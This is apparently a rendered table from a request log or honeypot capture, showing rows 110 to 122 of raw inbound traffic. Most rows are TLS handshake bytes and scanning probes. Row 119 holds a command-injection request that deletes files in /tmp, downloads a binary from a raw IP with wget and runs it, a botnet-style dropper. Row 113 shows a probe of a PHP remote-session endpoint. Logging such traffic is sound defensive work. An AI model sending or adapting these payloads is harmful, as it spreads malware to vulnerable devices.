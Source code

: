| 110 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03\xAC\x81dhV\x0B\x80                                                                                                                                                                                                                                                                                                                                                  |
| 111 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xBC\xD0                                                                                                                                                                                                                                                                                                                                                             |
| 112 |                     1 | GET /.well-known/security.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                           |
| 113 |                     1 | POST /php/utils/createRemoteAppwebSession.php/watchTowr.js.map HTTP/1.1                                                                                                                                                                                                                                                                                                                                          |
| 114 |                     1 | \xAA\xAA\xAA\xAAUUUUUUUU\xAA\xAA\xAA\xAAUUUU\xAA\xAA\xAA\xAAUUUU\xAA\xAA\xAA\xAAUUUU\xAA\xAA\xAA\xAAUUUU\xAA\xAA\xAA\xAAUUUU\xAA\xAA\xAA\xAAUUUU\xAA\xAA\xAA\xAA                                                                                                                                                                                                                                                 |
| 115 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xFDY\x9E\x22\xA1\x5C\x9A\xC7\x10\x00\xF4\x93\xFC\xB5\xF9L\xC0\xABL\x11\x88?                                                                                                                                                                                                                                                                                               |
| 116 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xA6\x89\x8B\x10\xB9]?[\x93R\xB7\xDCc0~\xE9S\x91^p\xBD\xE7yW\x03\x03|\xDA/'t~\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                            |
| 117 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x9A\xB0\xEF\xC02X\x1AW\x95I\xA0FN\xEEcD#\xF0\x00\xAE\x1CR\x9D\x10\xEF\xB4\xC8\xEC\xC6w\xE4-\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                             |
| 118 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03\xEA\x9C\x91D\x0B7t<\xEE\x14I\x0Ek\x80;\xB7C~t\xDE\xF0P\xB3\xB6\x94j_\xB4e\xB3sA 7+\xDDZ\xA6\xB4\xB6b\xEE\xFD\x0E@\xED\xC9\x90\xAE\xE1G\x93\xF3\xA8\xEC'\x92\x1A1\xA1\x91Lj\x7F@\x00\x1A\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                     |
| 119 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                                                                                                                    |
| 120 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\xA1\x08_#||\x06\xC0\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                      |
| 121 |                     1 | \x16\x03\x01\x00\x93\x01\x00\x00\x8F\x03\x03\xA1\xE5\xFCQ5\xC3\x0Es\xF7\xF3\x09\xBCe\xF8\xCC\xF4\xC1s{\xF7\x04\xF0\xB2\x16*\x92n\x82C\xDF`\xDA\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                 |
| 122 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03~\x8D\xA2=\x92\x03\xFE|\xE0(\xB8\xA9\xF8d\x15\xB3+\xFB\x03^\xA0F\xBD\x22\xB2#\xCEm\xD8\xEC\xDCx\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                          |